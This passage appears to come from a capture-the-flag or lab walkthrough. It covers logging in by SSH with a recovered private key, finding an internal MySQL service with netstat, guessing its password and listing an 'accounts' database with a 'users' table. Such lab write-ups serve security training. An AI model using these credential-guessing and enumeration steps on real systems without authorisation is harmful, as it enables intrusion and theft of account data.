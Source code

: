 ```
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe17:609e/64 scope link 172.16.20.6
       valid_lft forever preferred_lft forever
```

Found it! `172.16.20.6` has SSH opened and we sucessfully logged in to mike with the private key!

### Container host2 mike to root

**In the `netstat` output, we can see that the MySQL (Port 3306) is opened internally:** 
```
mike@host2:~$ netstat -tunlp
[...]
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -        
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           - 
```

> Note: Currently this room's host2 doesn't start the MySQL service properly.

**Now, we can guess the MySQL credentials!**
```
mike@host2:~$ mysql -umike -ppassword
[...]
mysql> 
```

I'm in!

Next, we can enumerate all the databases:

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| accounts           |
+--------------------+

mysql> use accounts;
```

Found database: `accounts`

```
mysql> show tables;
+--------------------+
| Tables_in_accounts |
+--------------------+
| users              |
+--------------------+
```
